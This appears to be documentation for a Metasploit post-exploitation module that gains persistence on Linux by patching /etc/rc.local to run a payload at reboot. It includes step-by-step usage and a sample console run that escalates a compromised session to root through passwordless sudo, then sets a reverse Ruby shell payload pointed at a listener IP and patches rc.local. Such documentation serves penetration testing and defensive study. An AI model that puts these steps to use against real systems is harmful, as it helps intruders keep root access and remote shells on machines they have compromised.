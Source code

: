 ## rc.local Persistence

This module patches `/etc/rc.local` in order to launch a payload upon reboot.

> Sometimes `/etc/rc.local` is run when the network is not yet on, make sure your payload won't quit if that's the case.


### Verification

1. Exploit a box and get a **root** session (tip: try `post/multi/manage/sudo`)
2. `use exploit/linux/local/rc_local_persistence`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`


### Sample run

#### Escalate the session if needed

```
msf5 exploit(linux/local/rc_local_persistence) > use post/multi/manage/sudo 
msf5 post(multi/manage/sudo) > set session 3
session => 3
msf5 post(multi/manage/sudo) > run

[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] No password available, trying a passwordless sudo.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Persist

```
msf5 post(multi/manage/sudo) > use exploit/linux/local/rc_local_persistence
msf5 exploit(multi/handler) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby
msf5 exploit(linux/local/rc_local_persistence) > set LHOST 192.168.0.41
LHOST => 192.168.0.41
msf5 exploit(linux/local/rc_local_persistence) > run

[*] Reading /etc/rc.local
[*] Patching /etc/rc.local
```
